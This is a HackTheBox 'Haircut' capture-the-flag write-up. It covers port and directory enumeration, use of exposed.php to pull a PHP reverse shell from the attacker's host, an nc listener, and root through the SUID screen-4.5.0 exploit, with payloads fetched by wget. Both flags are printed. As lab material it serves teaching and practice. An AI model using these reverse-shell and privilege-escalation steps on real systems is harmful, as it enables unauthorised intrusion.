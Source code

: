 ```yaml
---
layout: post
title: HackTheBox Haircut (10.10.10.24) Writeup
description: >
  Hackthebox Haircut Writeup
image: /assets/img/haircut.png
---
```


First start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-26 16:37 UTC
Nmap scan report for 10.10.10.24
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```
Only a couple ports to work with. Checking out port 80 I are greeted with a basic webpage with a photo.

Running a gobuster I find a couple of pages.

```
# gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20    
===============================================================                                                                               
Gobuster v3.0.1                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                               
===============================================================                                                                               
[+] Url:            http://10.10.10.24                                                                                                        
[+] Threads:        20                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                              
[+] Status codes:   200,204,301,302,307,401,403                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                            
[+] Extensions:     txt,php                                                                                                                   
[+] Timeout:        10s                                                                                                                       
===============================================================                                                                               
2019/09/26 16:46:56 Starting gobuster                                                                                                         
===============================================================                                                                               
/uploads (Status: 301)                                                                                                                        
/exposed.php (Status: 200)                                                                                                              
```
The <b>/uploads</b> directory redirects us to a 403 so I cant do much there right now. The <b>/exposed.php</b> is the one that I want. In the top left I see a button that prints out a <b>test.html</b> file from the localhost.

![button.png](../../resources/7d49512efa0f455286d0843615701924.png)

I decided to try and see if I can interact with my attacking machine. To do this I set up a <b>python SimpleHTTPServer</b> on my attacking machine so I could attempt to transfer the a reverse shell over.

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

# http://10.10.14.21/shell.php -o uploads/shell.php
```
Now I set up my <b>nc</b> listener and then triggered the shell by navigating to <b>http://10.10.14.21/uploads/shell.php</b>. If I check the listener then I will see that a shell has opened
```
# nc -lvnp 9999                                                                                                  
listening on [any] 9999 ...                                                                                                                   
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.24] 43682                                                                                   
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux                                     
 19:45:58 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00                                                                                 
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                         
/bin/sh: 0: can't access tty; job control turned off                                                                                          
$
```
From here I can grab the user flag
```
$ cat user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
```
Now for the priv esc. If I run a LinEnum script you should see the vulnerable <b>SUID</b> binary <b>screen-4.5.0</b>.
```
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at                                                                                     
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd                                                                                     
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0                                                                             
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh                                                                                       
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn                                                                                       
```
A quick google search will reveal the exploit *[here](https://www.exploit-db.com/exploits/41154)*. The problem is the exploit does not work stright away because <b>gcc</b> is broken on the box so I need to compile <b>libhax.c</b> and <b>rootshell.c</b> locally and then upload them to the box.
```
# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                        
/tmp/libhax.c: In function ‘dropshell’:

# gcc -o /tmp/rootshell /tmp/rootshell.c                                                                                        
/tmp/rootshell.c: In function ‘main’:
```
Now I need to copy <b>libhax.so</b> and <b>rootshell</b> over to the <b>/tmp</b> directory on the box. I can do this using a <b>python SimpleHTTPServer</b> again
```
$ wget 10.10.14.21:8000/rootshell                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
--2019-09-26 21:02:00--  http://10.10.14.21:8000/rootshell                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16824 (16K) [application/octet-stream]                                                                                                
Saving to: 'rootshell'                                                                                                                        

     0K .......... ......                                     100%  562K=0.03s                                                                

2019-09-26 21:02:01 (562 KB/s) - 'rootshell' saved [16824/16824]                                                                              

[+] done!                                                                                                                                     
$ wget 10.10.14.21:8000/libhax.so                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                  
--2019-09-26 21:01:48--  http://10.10.14.21:8000/libhax.so                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16136 (16K) [application/octet-stream]                                                                                                
Saving to: 'libhax.so'                                                                                                                        

     0K .......... .....                                      100%  521K=0.03s                                                                

2019-09-26 21:01:48 (521 KB/s) - 'libhax.so' saved [16136/16136]                                                                              
```
Now run the exploit from earlier
```
$ bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
gcc: error trying to exec 'cc1': execvp: No such file or directory
gcc: error trying to exec 'cc1': execvp: No such file or directory
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```
Now I can grab the root flag
```
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
```
<br><br><br><br>
